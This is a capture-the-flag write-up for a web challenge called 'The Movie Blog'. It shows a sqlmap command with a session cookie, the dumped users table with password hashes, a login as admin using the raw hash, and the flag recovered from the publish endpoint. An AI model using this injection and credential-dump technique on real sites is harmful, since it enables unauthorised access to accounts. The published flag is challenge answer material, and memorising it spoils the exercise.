



## The Movie Blog

Challenge text: 

My boss sucks. He keeps telling me to say that I like terrible movies. I can't publish anything without getting his okay. Can you figure out how to get into his account and publish some new articles for me?



Solve:

- Reviewed the site for a bit and created an account with the user and pass asdf 
- Ran sqlmap with a session cookie: `sqlmap -u https://thecybercoopctf-0a608aacfa7a-the-movie-blog-0.chals.io/3 --cookie="session=MTcwMjc2NzU3MnxEdi1CQkFFQ180SUFBUkFCRUFBQVZ2LUNBQU1HYzNSeWFXNW5EQVFBQW1sa0JIVnBiblFHQWdBREJuTjBjbWx1Wnd3R0FBUnVZVzFsQm5OMGNtbHVad3dHQUFSaGMyUm1Cbk4wY21sdVp3d0dBQVJ5YjJ4bEJuTjBjbWx1Wnd3R0FBUjFjMlZ5fJxUUU5xBPTW4H-c-F2WJAiQElNZnqfICgz3rRE5Q4PQ" --dbms=SQLite`
- Sqlmap retrived the user table

```
Table: users
[3 entries]
+----+--------+--------+---------------------------+----------------------------------+
| id | name   | role   | email                     | password                         |
+----+--------+--------+---------------------------+----------------------------------+
| 1  | admin  | admin  | admin@challenge.services  | 3ac63c3f8d63a4f5139ab8f2f8f856ec |
| 2  | editor | editor | editor@challenge.services | 4da38621742d2862719f4662b12e70b7 |
| 3  | asdf   | user   | asdf@asdf.com             | asdf                             |
+----+--------+--------+---------------------------+----------------------------------+
```

- I just recently registered the asdf account so I didn't get sidetracked with cracking hashes
- Logged into the admin account with the hash as the password
- Navigated to /admin and discovered the Publish area



- The challenge provided partial source and one of those pieces covered the publish area

```
admin.Use(AdminRequired)
        {
                admin.POST("/posts/publish", func(c *gin.Context) {
                        c.HTML(200, "message.html", pongo2.Context{
                                "message": FLAG,
```

- So it looks like if we are logged in as admin and go through the publish process we will receive the flag
- Attempts to create a post did not produce the flag
- Navigated to one of the default posts and hit submit and the flag was displayed



- Final flag is `flag{i_see_a_ship_in_the_harbor_i_can_and_shall_obey}`
